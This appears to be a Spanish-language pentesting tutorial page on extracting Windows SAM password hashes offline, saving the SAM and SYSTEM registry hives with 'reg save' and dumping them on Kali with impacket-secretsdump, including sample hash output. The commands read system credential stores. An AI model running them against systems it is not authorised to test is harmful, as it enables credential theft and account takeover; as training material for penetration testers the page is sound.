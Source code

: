 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Volcado de Isass y SAM en Linux

La herramienta `Mimikatz` es detectado por casi todos los sistemas `Windows` aunque mas adelante veremos herramientas de evasion para esto, pero si lo queremos hacer de otra forma con una herramienta de `linux` podremos hacerlo de la siguiente forma:

Primero tendremos que extraer desde `Windows` la rama donde se encuentra la `SAM` creando un archivo, el cual luego nos pasaremos al `kali`.

```powershell
cd .\Desktop
reg save hklm\sam sam.save
```

Info:

```
La operación se completó correctamente.
```

Esto nos dara un archivo llamado `sam.save` el cual nos tendremos que pasar al `kali`.

Pero a parte tambien volcaremos el `system`:

```powershell
reg save hklm\system system.save
```

Ahora nos copiaremos los 2 ficheros y los pasamos a nuestro `kali`.

Dentro de `kali` vamos a volcar la `SAM` desde el fichero que generamos `sam.save` de la siguiente forma:

```shell
impacket-secretsdump -sam sam.save -system system.save LOCAL
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xc8125866b327df176940c9f2d6a48f5f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5ed544e71abe56b376b7993b21946520:::
santiago:1001:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
[*] Cleaning up...
```
